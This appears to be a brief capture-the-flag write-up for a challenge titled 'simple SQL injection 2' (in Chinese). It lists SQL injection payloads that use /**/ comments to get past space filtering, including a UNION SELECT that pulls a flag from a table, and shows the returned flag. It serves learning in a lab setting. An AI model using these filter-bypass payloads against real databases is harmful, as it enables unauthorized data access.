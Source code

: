 # 简单的sql注入之2
ID: 1'and/**/1=1/**/#
name: baloteli

1'/**/union/**/select/**/flag/**/from/**/flag#






ID: 1'/**/union/**/select/**/flag/**/from/**/flag#
name: baloteli
ID: 1'/**/union/**/select/**/flag/**/from/**/flag#
name: flag{Y0u_@r3_5O_dAmn_90Od}